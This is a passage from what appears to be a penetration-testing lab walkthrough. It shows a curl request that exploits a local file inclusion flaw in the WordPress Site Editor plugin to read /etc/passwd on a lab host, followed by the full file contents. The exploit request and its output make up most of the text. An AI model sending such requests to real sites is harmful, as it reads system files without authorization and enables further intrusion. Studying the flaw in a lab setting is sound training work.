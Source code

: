 ```

Nicolas Buzy-Debat
Orange Cyberdefense Singapore (CERT-LEXSI)
```

So, in order to read `/etc/passwd`, we need to use curl in this way:

```
curl http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

And we get this output:

```
curl http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mrb3n:x:1000:1000:mrb3n,,,:/home/mrb3n:/bin/bash
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
erika:x:1001:1001::/home/erika:/bin/bash
frank.mclane:x:1002:1002::/home/frank.mclane:/bin/bash
pollinate:x:103:1::/var/cache/pollinate:/bin/false
landscape:x:112:105::/var/lib/landscape:/usr/sbin/nologin
```
